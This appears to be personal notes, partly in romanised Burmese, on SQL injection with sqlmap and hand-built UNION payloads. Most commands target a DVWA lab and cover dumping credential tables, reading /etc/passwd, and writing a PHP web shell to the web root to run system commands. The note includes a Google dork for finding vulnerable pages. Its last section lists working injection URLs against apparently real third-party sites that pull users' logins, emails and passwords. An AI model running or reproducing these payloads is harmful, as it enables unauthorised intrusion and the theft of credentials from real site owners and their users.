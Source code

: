 !@#
inurl:"new.php?id=" site:th   => google docking 


--data   -> post method mar use dar
-p -> permeter select pay dar
--dbms   -> dbms ka database ko select pay dar   -> a ti a kya ti yin htat dal ->exp mysql 
--technique -> BEUST -> bool , error , union, start query, time base
--batch -> user confirmation ko yes lot a myal pay dar


usage 

sqlmap -u "https://www.google.com/news.php?id=1" --current-db

===> with cookie value  (log in win ya de app twe)
sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --current-db --cookie="PHPSESSID=sq468tmdslsm1jsfebedjk8p6e; security=low"

==> when we get database name
sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --current-db --cookie="PHPSESSID=sq468tmdslsm1jsfebedjk8p6e; security=low" --tables -D dvwa

===> column swal htoke dar ->user table htal ka
sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --current-db --cookie="PHPSESSID=sq468tmdslsm1jsfebedjk8p6e; security=low" --columns -T users -D dvwa

===> data dump
 sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --current-db --cookie="PHPSESSID=sq468tmdslsm1jsfebedjk8p6e; security=low" --dump -C user,password -T users -D dvwa

==> file write loke lot ya ma ko check dar
sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --current-db --cookie="PHPSESSID=sq468tmdslsm1jsfebedjk8p6e; security=low" --is-dba

==> passwd file ko read dar
sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --current-db --cookie="PHPSESSID=sq468tmdslsm1jsfebedjk8p6e; security=low" --file-read='/etc/passwd'

===> fucking open it now 
cat /home/kali/.local/share/sqlmap/output/192.168.99.116/files/_etc_passwd


===> file permission ko access ya ma ya check dr
http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1' union select concat(user,0x3a,file_priv),2 from mysql.user--+&Submit=Submit#

===> file ko phat dar
http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1' union select 1,load_file('/etc/passwd')--+&Submit=Submit#

===> full permission shi dae folder out mar win yae dar
http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1' union select 1,2 into outfile ''/var/www/html/test/a.txt'--+&Submit=Submit#

http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1%27%20union%20select%201,2%20into%20outfile%20%27/var/www/html/test/b.txt%27--+&Submit=Submit#  => unencode with url


==> shell upload from sql injection
http://192.168.99.116/DVWA/vulnerabilities/sqli/?id=1%27%20union%20select%201,%27%3C?php%20system($_GET[0]);%20?%3E%27%20into%20outfile%20%27/var/www/html/test/shell.php%27--+&Submit=Submit#    => url encode

![[Pasted image 20230202225235.png]]

![[Pasted image 20230202225440.png]]
=> shell from client  #####

==> sql map with POST method (we using burpsuite)
 sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli/session-input.php" --data="id=1&Submit=Submit" --cookie="PHPSESSID=p43rljl5plv951vvr88u53ngj9; security=high" --current-db --level 3      ==> --data ka url ko use dar


===> cookie value mar sql pouk dar
sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=p43rljl5plv951vvr88u53ngj9; security=high" --current-db --level 3


===> dump tables
sqlmap -u "http://192.168.99.116/DVWA/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=p43rljl5plv951vvr88u53ngj9; security=high" --level 2 --tables -D dvwa


http://192.168.99.76/admin/edit.php?id=-1%20union%20select%201,2,load_file(%27/etc/passwd%27),4--   => load file ko dump dar



![[Pasted image 20230205211640.png]]
http://192.168.99.76/admin/edit.php?id=-1%20union%20select%201,2,3,4%20into%20outfile%20%27/var/www/css/a.txt%27--    ==> i got this one with writable access


===> Trying to inject  or evil  with this code
http://192.168.99.76/admin/edit.php?id=-1%20union%20select%201,%27%3C?php%20system($_GET[0]);?%3E%27,3,4%20into%20outfile%20%27/var/www/css/a.php%27--
![[Pasted image 20230205212220.png]]

===> Client side control
![[Pasted image 20230205212313.png]]
http://192.168.99.76/css/a.php?0=ls%20-al

==> Testing with sqlmap
sqlmap -u "http://192.168.99.76/admin/edit.php?id=1" --is-dba --cookie="PHPSESSID=nhtnf9d7rjjoaoijnh33p2g6p1"     

==> Trying for os shell with default path
sqlmap -u "http://192.168.99.76/admin/edit.php?id=1" --os-shell --cookie="PHPSESSID=nhtnf9d7rjjoaoijnh33p2g6p1"

==> Trying for os shell with manutal path  but manutal is the best bro haha

-----


https://www.pcccr.ac.th/studentaffairs/new.php?id=1%20union%20select%20group_concat(%27%3Cbr/%3E%27,login_user,0x3a3a,login_mail,0x3a3a,login_pass),2,3,4,5,6,7%20from%20login--


https://www.pcccr.ac.th/studentaffairs/new.php?id=1%20union%20select%20group_concat(%27%3Cbr/%3E%27,login_id,0x3a3a,login_user,0x3a3a,login_lastname,0x3a3a,login_mail,0x3a3a,login_pass,0x3a3a,login_log),2,3,4,5,6,7%20from%20login--


https://movative.ca/new.php?id=-17%27%20union%20select%201,group_concat(%27%3Cbr/%3E%27,name,0x3a3a,password),3,4,5,6,7,8%20from%20password%20--%20-

[https://kccollege.ac.in/iqac-new.php?id=1%20order%20by%201000](https://kccollege.ac.in/iqac-new.php?id=1%20order%20by%201000)–


http://www.dollswig.net/new.php?id=-30%20union%20select%201,2,3,4,group_concat(name,0x3a3a,pwd),6%20from%20xm_admin--%20-

